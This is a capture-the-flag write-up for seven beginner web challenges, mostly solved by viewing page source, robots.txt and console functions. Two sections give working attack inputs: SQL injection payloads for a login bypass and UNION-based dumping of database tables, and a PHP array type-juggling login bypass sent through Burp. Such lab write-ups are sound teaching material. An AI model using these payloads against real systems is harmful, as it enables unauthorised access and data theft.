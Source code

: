 ## Challenges
1. Lorem lpsum
2. My First Website
3. My Second Website
4. Consoling
5. Takeover
6. Secret Deomn
7. Live App

## Lorem Ipsum
![](./Lorem%20Ipsum/challenge.png)

o	Step 1 : Go to the link
![](./Lorem%20Ipsum/1.png)

o	Step 2: view the source to find the flag
![](./Lorem%20Ipsum/2.png)


## My First Website
![](./My%20First%20Website/challenge.png)

•	My First Website

o	Step 1: Go to the link
![](./My%20First%20Website/1.png)

o	Step 2: Inspect element, there is a base 64 encoded string in the alt field
![](./My%20First%20Website/2.png)

o	Step 3: base 64 decode and convert from hex to get the flag
![](./My%20First%20Website/3.png)


## My Second Website
![](./My%20Second%20Website/challenge.png)

o	Step 1: Go to the link
![](./My%20Second%20Website/1.png)

o	Step 2: add robots.txt behind the url
![](./My%20Second%20Website/2.png)

o	Step 3: Go to the html page
![](./My%20Second%20Website/3.png)


## Consoling

![](./Consoling/challenge.png)

o	Step 1: Go to the link

![](./Consoling/1.png)

o	Step 2: looking at the source, there is 3 different html pages
![](./Consoling/2.png)

o	Step 3: going to the realflag.html page
![](./Consoling/3.png)

o	Step 4: viewing the source, it says totry listfunctions()
![](./Consoling/4.png)

o	Step 5: try list functions in the console
![](./Consoling/5.png)

o	Step 6: run the get flag and get key function to get the flag
![](./Consoling/6.png)



## Takeover
![](./Takeover/challenge.png)

o	Step 1: Go to the link

![](./Takeover/1.png)


o	Step 2: Go to robots.txt

![](./Takeover/2.png)


o	Step 3: Going to the flag.html page, 

![](./Takeover/3.png)


o	Step 4: search for the } as there are many strings which start with NYP{

![](./Takeover/4.1.png)

![](./Takeover/4.2.png)

![](./Takeover/4.3.png)

## Secret Demon
```
This was solved after the CTF
```
![](./Secret%20Demon/challenge.png)


o	Step 1: use the payload below as the username and any character in the password field to login
```
admin' or 1=1 #
```
![](./Secret%20Demon/before_login.png)
![](./Secret%20Demon/logged%20in.png)


o	Step 2: use the payload below in the search field to list all the tables in the database
```
'UNION SELECT table_schema, table_name, 1 From information_schema.tables#
```
![](./Secret%20Demon/tables.png)
![](./Secret%20Demon/sec_chal_table.png)


o	Step 3: use the payload below in the search field to list the columns in security_challenge.oni_xyza table
```
' UNION SELECT table_name, column_name, 1 FROM information_schema.columns where table_name = 'oni_xyza'#
```
![](./Secret%20Demon/column.png)


o	Step 4: use the payload below in the search field to list the secret column in the oni_xyza table to get the flag
```
'UNION SELECT NULL, NULL, secret From security_challenge.oni_xyza #
```
![](./Secret%20Demon/flag.png)

```
flag: NYP{T4mAy0_i5_Qu33N}
```

## Live App
```
This was solved after the CTF
```
![](./Live%20App/challenge.png)

o Step 1: Use Burp to Intercept a post request


o Step 2: add a [] in front of the username and password and send the request to get the flag

```
username[]=&password[]=&login=Login
```
![](./Live%20App/flag.png)

```
flag: NYP{type_juggling!}
```
